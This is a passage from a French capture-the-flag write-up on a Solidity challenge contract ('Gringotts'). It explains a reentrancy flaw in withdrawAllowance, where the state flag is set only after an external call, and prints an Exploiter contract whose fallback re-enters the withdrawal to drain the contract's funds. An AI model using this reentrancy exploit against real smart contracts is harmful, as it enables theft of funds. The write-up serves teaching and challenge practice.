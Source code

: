 ```javascript=

    function withdrawAllowance() external isEligible{
        require(alreadyWithdrawn == false);
        if(availableAllowance >= allowancePerYear){
         if (msg.sender.call.value(allowancePerYear)()){
            alreadyWithdrawn = true;
         }
        numberOfWithdrawls = numberOfWithdrawls + 1;
        sorceryAllowance[msg.sender]-= allowancePerYear;
        availableAllowance-=allowancePerYear;
        }
    }

  function donateToSorcery(address sorceryDestination) payable public{
    sorceryAllowance[sorceryDestination] += msg.value;
  }

  function queryCreditOfSorcery(address sorcerySource) view public returns(uint){
    return sorceryAllowance[sorcerySource];
  }
}

```
On remarque que la vulnérabilité va sûrement se retrouver dans la fonction ```withdrawAllowance()```. En effet, les fonctions ```donateToSorcery``` et ```queryCreditOfSorcery``` ne font rien de très foufou. En regardant le constructeur, on remarque l'allowance par an est de ```msg.value/10```.

L'objectif ici va tout simplement être de s'octroyer le maximum d'allowance que le contrat a. C'est à dire ```availableAllowance = msg.value;``` décrit dans le constructeur, en évitant bien sûr d'attendre 10 ans avant de tout récupérer.

Pour cela, on va effectuer une attaque de type Reentrancy. Ci-dessous un peu de documentation pour savoir comment ça marche:

* https://hackernoon.com/smart-contract-security-part-1-reentrancy-attacks-ddb3b2429302
* https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4

### Exploitation de la Reentrancy

Cette attaque de type reentrancy consiste donc à exécuter la commande ```msg.sender.call.value(allowancePerYear)()``` en boucle jusqu'à mettre à 0 la variable ```availableAllowance```. La commande étant un appel externe, la variable ```alreadyWithdrawn``` n'aura pas le temps de se mettre à ```true```, nous permettant ainsi de vider le contrat.

Pour réaliser cette attaque, on va utiliser le contrat suivant:

```javascript=
 contract Exploiter {
    address public challenge3Contract = 0x3C81bC083C26cbeEc62181EA9b4A5933a02eE22b;

    constructor() public payable {
        Gringotts contractChallenge3 = Gringotts(challenge3Contract);
    }
     
    function Exploit() public payable {
        contractChallenge3.withdrawAllowance();
    }
     
    function () public payable {
        contractChallenge3.withdrawAllowance();
    }
     
}
```
